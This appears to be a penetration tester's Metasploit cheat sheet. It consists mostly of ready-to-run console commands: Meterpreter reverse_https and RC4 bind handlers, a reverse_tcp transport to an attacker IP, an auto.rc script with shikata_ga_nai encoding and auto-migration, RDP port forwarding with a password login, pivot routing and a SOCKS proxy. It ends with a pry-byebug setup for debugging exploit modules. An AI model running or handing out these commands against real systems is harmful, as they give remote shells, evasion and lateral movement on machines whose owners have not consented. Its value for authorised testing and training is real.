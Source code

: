 # Metasploit

* [https://buffered.io/posts/staged-vs-stageless-handlers/](https://buffered.io/posts/staged-vs-stageless-handlers/)
* [https://blog.rapid7.com/2015/03/25/stageless-meterpreter-payloads/](https://blog.rapid7.com/2015/03/25/stageless-meterpreter-payloads/)
* [https://www.darkoperator.com/blog/2015/6/14/tip-meterpreter-ssl-certificate-validation](https://www.darkoperator.com/blog/2015/6/14/tip-meterpreter-ssl-certificate-validation)

## Cheatsheet

Quick handler launch:

```text
msf > handler -H eth0 -P 443 -p windows/x64/meterpreter/reverse_https [-e x64/xor] [-x]
```

Bind RC4 handler through SOCKS proxy:

```text
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp_rc4
msf exploit(multi/handler) > set rhosts 127.0.0.1
msf exploit(multi/handler) > set lport 1337
msf exploit(multi/handler) > set rc4password Passw0rd!
msf exploit(multi/handler) > set proxies socks5:127.0.0.1:1080
msf exploit(multi/handler) > run
```

Change meterpreter shell transport:

```text
meterpreter > transport add -t reverse_tcp -l 10.10.13.37 -p 9002
meterpreter > transport list
msf > handler -H eth0 -P 9002 -p windows/x64/meterpreter/reverse_tcp
meterpreter > transport next
```

Automation \(about `exploit` options [here](https://github.com/rapid7/metasploit-framework/blob/4049c41ac1b6f12566b055dc5442192072ea5d78/lib/msf/ui/console/command_dispatcher/exploit.rb#L17-L27)\):

```text
// auto.rc
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set lhost 10.10.13.37
set lport 443
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
exploit -jz
```

```text
$ sudo msfconsole -qr auto.rc
```

Reverse local port `3389` \(on Victim, `10.10.13.37`\) to local port `43389` \(on Attacker\):

```text
meterpreter > portfwd add -l 43389 -p 3389 -r 10.10.13.37
[*] Local TCP relay created: :43389 <-> 10.10.13.37:3389
$ xfreerdp /u:administrator /p:'Passw0rd!' /v:127.0.0.1:43389
```

Routing:

```text
meterpreter > run autoroute -s 192.168.10.0/24
meterpreter > run autoroute -p
Or
msf5 > route add 192.168.10.0/24 1
msf5 > route
```

Start SOCKS server \(default is SOCKS5\):

```text
msf > use auxiliary/server/socks_proxy
msf auxiliary(server/socks_proxy) > set srvhost 127.0.0.1
msf auxiliary(server/socks_proxy) > run -j
```

## Debug

1. [https://github.com/deivid-rodriguez/pry-byebug](https://github.com/deivid-rodriguez/pry-byebug)
2. [https://www.youtube.com/watch?v=QzP5nUEhZeg&t=2190](https://www.youtube.com/watch?v=QzP5nUEhZeg&t=2190)

```text
$ gem install pry-byebug
$ vi ~/.pry-byebug
...
```

```ruby
if defined?(PryByebug)
  Pry.commands.alias_command 'c', 'continue'
  Pry.commands.alias_command 's', 'step'
  Pry.commands.alias_command 'n', 'next'
  Pry.commands.alias_command 'f', 'finish'
end

 # Hit Enter to repeat last command
Pry::Commands.command /^$/, "repeat last command" do
  _pry_.run_command Pry.history.to_a.last
end
```

```text
...
$ cp -r /usr/share/metasploit-framework/ /opt
$ vi /opt/metasploit-framework/msfconsole
...add "require 'pry-byebug'"...
$ mkdir -p ~/.msf4/modules/exploits/linux/http/
$ cp /usr/share/metasploit-framework/modules/exploits/linux/http/packageup.rb ~/.msf4/modules/exploits/linux/http/p.rb
$ vi ~/.msf4/modules/exploits/linux/http/p.rb
...add "binding.pry"...
```

